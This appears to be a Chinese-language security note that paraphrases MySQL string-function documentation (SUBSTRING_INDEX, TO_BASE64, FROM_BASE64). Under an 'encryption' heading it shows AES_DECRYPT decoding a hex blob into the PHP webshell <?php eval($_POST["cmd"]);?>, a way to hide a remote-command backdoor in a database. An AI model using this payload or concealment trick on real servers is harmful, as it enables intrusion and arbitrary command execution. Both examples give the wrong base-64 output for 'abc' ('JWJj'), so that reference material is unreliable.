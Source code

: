 ### SUBSTRING_INDEX

**SUBSTRING_INDEX(str,delim,count)**

Returns the substring from string str before count occurrences of the delimiter delim. If count is positive, everything to the left of the final delimiter (counting from the left) is returned. If count is negative, everything to the right of the final delimiter (counting from the right) is returned.
SUBSTRING_INDEX() performs a case-sensitive match when searching for delim.

```sh
mysql> SELECT SUBSTRING_INDEX('www.mysql.com', '.', 2);
-> 'www.mysql'
mysql> SELECT SUBSTRING_INDEX('www.mysql.com', '.', -2);
-> 'mysql.com'
```

### TO_BASE64

**TO_BASE64(str)**

Converts the string argument to base-64 encoded form and returns the result as a character string with the connection character set and collation. If the argument is not a string, it is converted to a string before conversion takes place. The result is NULL if the argument is NULL. Base-64 encoded strings can be decoded using the FROM_BASE64() function.

```sh
mysql> SELECT TO_BASE64('abc'), FROM_BASE64(TO_BASE64('abc'));
-> 'JWJj', 'abc'
```

### FROM_BASE64

Takes a string encoded with the base-64 encoded rules used by TO_BASE64() and returns the
decoded result as a binary string. The result is NULL if the argument is NULL or not a valid base-64 string. See the description of TO_BASE64() for details about the encoding and decoding rules.

```sh
mysql> SELECT TO_BASE64('abc'), FROM_BASE64(TO_BASE64('abc'));
-> 'JWJj', 'abc'
```

## 0x02 加密

```sh
MariaDB [(none)]> SELECT AES_DECRYPT(UNHEX("4B8A46D45BFA21AB2301907A63E868E3293216683CF8FF8A08A4C96986627A59"),"PASS");
+-----------------------------------------------------------------------------------------------+
| AES_DECRYPT(UNHEX("4B8A46D45BFA21AB2301907A63E868E3293216683CF8FF8A08A4C96986627A59"),"PASS") |
+-----------------------------------------------------------------------------------------------+
| <?php eval($_POST["cmd"]);?>                                                                  |
+-----------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)
```